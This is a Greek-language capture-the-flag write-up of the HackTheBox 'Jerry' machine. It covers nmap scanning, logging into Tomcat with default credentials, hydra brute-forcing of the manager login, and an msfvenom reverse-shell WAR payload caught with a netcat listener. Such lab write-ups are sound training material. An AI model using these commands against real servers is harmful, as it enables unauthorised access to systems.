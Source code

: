 ```yaml
---
title: Jerry
date: 2020-10-14 10:00:00 +0300
categories: [HackTheBox, CTF]
tags: [htb,ctf,begginer track]     # TAG names should always be lowercase
---
```

# Σε γενικές γραμμές.

![Desktop View](/assets/img/sample/HTC/jerry_htb_screen.png)

### Host discovery
Για το host descovery θα χρησιμοποιησουμε το nmap!

```shell
nmap -sV -sC 10.10.10.95
```

Αυτό το μηχάνημα έχει ανοιχτή την 8080 port και τρέχει 'Apache Tomcat/Coyote JSP engine' το οποίο είναι ένα HTTP web server environment οπου μπορείς να τρέξεις java εφαρμογές.

![Desktop View](/assets/img/sample/HTC/jerry_nmap.png)

![Desktop View](/assets/img/sample/HTC/jerry_server_status)

![Desktop View](/assets/img/sample/HTC/jerry_default_password)


Μπαίνοντας στο http://http://10.10.10.95:8080/manager/ και κανουμε login με τα παραπανω default credetials.

## Bruteforcing tomcat default creds with Hydra and seclists

Ένας δεύτερος τρόπος είναι να κάνουμε bruteforce attack το login page του tomcat.
Οπότε ανοίγουμε το burpsuite αντιγράφουμε το request και έπειτα το χρησιμοποιούμε μέσω του hydra για να βρούμε ονομα και κωδικο του tomcat.
αρχικά κάνουμε εγκατάσταση την wordlist για τους default κωδικους του tomcat

```terminal
sudo apt install seclists
hydra -C /user/share/seclists/Passwords/Default-Credentials/tomcat-betterdefaultpasslist.txt http-get://10.10.10.95:8080/manager/html
```

![Desktop View](/assets/img/sample/HTC/hydra-bruteforce.png)

Κάνοντας login στο http://10.10.10.95:8080/manager βάζουμε τους τα credetials που βρηκαμε παραπανω.

![Desktop View](/assets/img/sample/HTC/jerry_login.png)

και βλέπουμε οτι επιτυχως εχουμε εισελθει στο tomcat dashboard. 
Εκεί βλέπουμε οτι μπορούμε να ανεβάσουμε αρχεία. Ανεβάζοντας ενα payload ίσως είναι αρκετό να μας δώσει προσβαση στον server.

![Desktop View](/assets/img/sample/HTC/jerry_upload_war.png)

## generating payloads

Θα χρησιμοποησουμε το msfvenom ωστε να δημιουργησουμε ενα payload και να το ανεβασουμε και επειτα κανουμε Setup τον Netcat listener.

```terminal
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.9 LPORT=1234 -f war > exploit.war
```
Κάνουμε unzip to αρχειο που δημιουργήσαμε για να δουμε το ονομα του jsp file που εχουμε ωστε να το βάλουμε στο url οταν χρειστει να τρέξουμε το payload.
Επειτα συνδεομαστε στο netcat listener απο το target host.

```terminal
unzip exploit.war
```
![Desktop View](/assets/img/sample/HTC/jerry_jsp.png)

```terminal
nc -nlvp 1234
```

Επειτα πηγαίνουμε στο http://10.10.10.95:8080/exploit/mroilmcirxmx.jsp

και βλέπουμε οτι επιτυχώς έχουμε πρόσβαση στο host

![Desktop View](/assets/img/sample/HTC/jerry_flags.png)
